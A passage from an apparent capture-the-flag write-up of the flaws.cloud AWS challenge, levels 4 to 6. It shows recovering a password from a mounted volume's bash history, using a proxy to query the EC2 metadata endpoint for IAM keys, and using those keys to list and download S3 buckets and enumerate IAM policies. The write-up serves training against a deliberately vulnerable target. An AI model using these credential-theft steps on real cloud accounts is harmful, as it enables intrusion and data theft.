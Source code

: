 *Need to guess the correct region until the command works, there aren’t that many US regions so it doesn't take long to guess the correct region.

Next, create an ec2 instance on our user and attach this volume to that ec2. <br>

Next, ssh into the ec2 instance we created, run the command 'lsblk' to find the attached volume, and then mount the volume by running: sudo mount /dev/xvda /mnt 

Step 4: Go to /mnt and look around for credentials.  Checking in /home/ubuntu/.bash_history shows a username and password of  flaws:nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M

Step 5: Use these credentials to login to http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

---
<h3>Level 5 target: http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/38a641ab-e076-48cd-9552-718cbedebd84)

Step 1: If you can make any sort of HTTP request from an EC2 to an IP of 169.254.169.254, you'll likely get back information the owner would prefer you not see.  Check this by navigating to http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/8b41282c-c144-4929-9220-c9d5dca7c5b2)

This url shows an accesskeyid and a secretaccesskey.  169.254.169.254 is a known url for 

Step 2: Configure a user profile with these keys: aws configure --profile testing3 <br>
When prompted, enter the access keys and then manually enter into ~/.aws/credentials into testing3 the aws_session_token (that’s the ‘Token’ value).  

Step 3: Check if can use this profile to list the s3 bucket: aws --profile testing3 s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5de4d54d-f80c-4542-a7db-95fe9c39778b)

This shows the listing for the bucket.

Step 4: Download the bucket: aws --profile testing3 s3 sync s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/ .

Step 5: Opening the downloaded file shows the next level

---
<h3>Level 6 Target: See description below</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2b504753-3e24-43bc-b2a2-5ffb0befc0f4)

Step 1: Configure a new profile with these access keys.  Since we have previously seen the target use the region of us-west-2, when we configure the user we will set this same region for the user.  

Step 2: Find out who you are: aws --profile testing4 iam get-user

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35843a38-cb73-47dd-9742-025427f6b52b)

Step 3: Now that we know we are the user called “Level6”, find what policies this user has: <br>
aws --profile testing4 iam list-attached-user-policies --user-name Level6

